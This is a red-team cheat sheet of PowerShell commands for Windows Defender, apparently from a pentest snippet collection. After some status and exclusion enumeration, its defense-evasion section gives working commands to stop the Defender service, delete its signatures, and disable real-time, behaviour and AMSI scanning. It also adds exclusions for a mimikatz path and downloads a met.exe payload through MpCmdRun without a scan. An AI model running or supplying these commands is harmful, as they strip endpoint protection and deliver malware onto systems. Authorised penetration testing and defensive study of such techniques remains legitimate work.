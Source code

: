 # pwsh
% windows, security, antivirus, defender

#plateform/windows #target/local #cat/RECON/SECURITY/DEFENDER #tag/powershell 



## defender - knowledge
```powershell
https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1
https://wirediver.com/disable-windows-defender-in-powershell/
```


## defender - get antivirus
```powershell
wmic.exe /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

## defender - get powershell commands
```powershell
Get-Command -Module Defender
```

## defender - get service Status
```powershell
(Get-Service windefend).Status
```

## defender - get status
```powershell
Get-MpComputerStatus
```

## defender - get defensive modules status
```powershell
Get-MpComputerStatus | Select RealTimeProtectionEnabled, IoavProtectionEnabled, Antispyware | FL
```

## defender - get tamper protection status
```powershell
Get-MpComputerStatus | Select IsTamperProtected, RealTimeProtectionEnabled | FL
```

## defender - get exclusions path
```powershell
Get-MpPreference | Select-Object -Property ExclusionPath, ExclusionExtension
```

## defender - get exclusions extension
```powershell
Get-MpPreference | Select-Object  -Property ExclusionExtension
```


#cat/DEFENSE-EVASION/SECURITY/DEFENDER

## Defender - stop service
```powershell
(Get-Service windefend).stop
```

## Defender - Remove signatures (if Internet connection is present, they will be downloaded again)
```powershell
.\MpCmdRun.exe -RemoveDefinitions -All
```

## Defender - disable All
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true;  Set-MpPreference -DisableScriptScanning $true
```

## Defender - disable Real Time Monitoring 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Defender - Disable scanning for downloaded or attachments
```powershell
Set-MpPreference -DisableIOAVProtection $true
```

## Defender - Disable behaviour monitoring
```powershell
Set-MPPreference -DisableBehaviourMonitoring $true
```

## Defender - Disable AMSI
```powershell
Set-MpPreference -DisableScriptScanning $true
```


## Defender - Add path to exclusions
```powershell
$p = "<path|c:\temp\mimikatz.exe>" ; Add-MpPreference -ExclusionPath $p -AttackSurfaceReductionOnlyExclusions $p
```


## Defender - Add extension to exclusions
```powershell
Set-MpPreference -ExclusionExtension "<extension|ps1>"
```

## Defender - Download without triggering scan
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\snovvcrash\music\met.exe
```